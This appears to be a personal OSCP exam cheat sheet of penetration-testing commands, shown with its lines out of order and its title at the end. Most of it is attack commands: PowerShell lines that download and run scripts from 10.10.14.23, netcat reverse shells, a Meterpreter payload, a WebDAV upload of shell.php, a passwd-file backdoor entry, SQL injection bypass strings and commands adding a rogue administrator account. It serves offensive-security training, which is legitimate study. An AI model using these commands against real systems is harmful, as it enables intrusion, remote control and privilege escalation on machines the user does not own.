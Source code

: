 ./windows-exploit-suggester.py --database 2019-03-17-mssb.xls --systeminfo /root/sandbox/sys_info_xp.txt
firefart:fib/tLwcEGsC2:0:0:pwned:/root:/bin/bash

set AUTORUNSCRIPT multi_console_command -r /root/autoruncommands.rc
windows/meterpreter/reverse_tcp_allports

powershell -version 2 -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.23:8000/PowerUp.ps1'); Invoke-AllChecks"
powershell.exe -exec Bypass -C " (new-object System.Net.WebClient).Downloadfile('http://10.10.14.23:8000/Chimichurri.exe', 'C:\users\tolis\Chimichurri.exe')"

netcat URL encoded rm+/tmp/f%3bmkfifo+/tmp/f%3bcat+/tmp/f|/bin/sh+-i+2>%261|nc+10.10.14.23+1234+>/tmp/f
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

sql injection bypass user='*' and password='*'

sed -i 's/\r//' filename

proxytunnel -p 10.0.1.114:3128 -d 127.0.0.1:22 -a 4444
ssh john@127.0.0.1 -p 4444  "/bin/sh"

qemu-img convert -f vdi -O vmdk VulnOSv2.vdi VulnOSv2.vmdk

curl --head -X OPTIONS 192.168.2.4/test/
HTTP/1.1 200 OK
DAV: 1,2
MS-Author-Via: DAV
Allow: PROPFIND, DELETE, MKCOL, PUT, MOVE, COPY, PROPPATCH, LOCK, UNLOCK
Allow: OPTIONS, GET, HEAD, POST
Content-Length: 0
Date: Thu, 15 Jun 2017 16:32:35 GMT
Server: lighttpd/1.4.28

curl -v -X PUT -H "Expect: " 192.168.2.4/test/shell.php -d@shell.php

find SUID binaries
find / -perm -u=s -type f 2>/dev/null (SUID3ENUM)

SPARTA

echo $username = "alice" > startprocess.ps1
echo $password = "aliceishere" >> startprocess.ps1
echo $securePassword = ConvertTo-SecureString $password -AsPlainText -Force >> startprocess.ps1
echo $credential = New-Object System.Management.Automation.PSCredential $username, $securepassword >> startprocess.ps1
echo Start-Process "C:\Users\public\nc.exe" -ArgumentList "-e cmd.exe 192.168.119.213 1234"  -Credential $credential >> startprocess.ps1

    service_exec(conn, r'cmd /c net user bill pass /add')
    service_exec(conn, r'cmd /c net localgroup administrators bill /add') 

# OSCP Cheatsheet By DABTAN

The following collection is a wild (but structured) selection of commands, snippets, links, exploits, tools, lists and techniques I personally tested and used on my journey to becoming an OSCP. I will extend, restructure and update it from time to time, so let's see where this is going. 
